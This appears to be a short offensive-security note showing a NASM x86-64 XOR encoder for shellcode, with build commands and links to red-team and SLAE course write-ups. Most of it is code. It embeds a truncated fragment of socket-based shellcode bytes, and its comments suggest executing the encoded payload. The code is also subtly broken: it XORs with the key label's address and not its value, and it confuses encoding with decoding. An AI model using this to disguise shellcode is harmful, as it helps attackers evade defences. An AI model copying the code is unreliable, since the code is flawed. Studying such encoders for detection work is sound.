# XOR

## NASM

```nasm
section .data
    shellcode db 0x48,0x31,0xff,0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9
    shellcode_len equ $ - shellcode
    key db 0x7F  ; Replace 0x7F with your single XOR key (example: 0x7F)

section .text
    global _start

_start:
    mov  rdi, shellcode
    mov  rcx, shellcode_len

encode_loop:
    mov  al, [rdi]      ; Load a byte from shellcode
    xor  al, key        ; XOR with the key
    mov  [rdi], al      ; Store the encoded byte back into shellcode
    inc  rdi            ; Move to the next byte
    loop encode_loop    ; Continue loop until all bytes are encoded

    ; Now you can use the encoded shellcode as needed.
    ; For example, you could jump to the shellcode or execute it directly.
    ; In this example, we'll just exit the program.

    ; Exit the program
    mov  rax, 60        ; syscall number for exit
    xor  rdi, rdi       ; exit code 0
    syscall
```

```
$ nasm -f elf64 xor_encoder.asm -o xor_encoder.o

$ ld xor_encoder.o -o xor_encoder
```

```
$ gcc -nostartfiles xor_encoder.o -o xor_encoder
```

---
## References

- [Red Team Notes: Writing Custom Shellcode Encoders and Decoders](https://www.ired.team/offensive-security/code-injection-process-injection/writing-custom-shellcode-encoders-and-decoders)

https://hackingbits.github.io/blog/slae-4th-assignment-encoding-and/

https://github.com/geyslan/SLAE/tree/master/4th.assignment

https://hackingbits.github.io/blog/slae-7th-assignment-crypted-shellcodes/

https://github.com/geyslan/SLAE/tree/master/7th.assignment

https://xoban.info/blog/2019/02/02/shellcode-encoder-decoder-x64/

https://github.com/nbarriere/SLAE64/tree/master/assignment4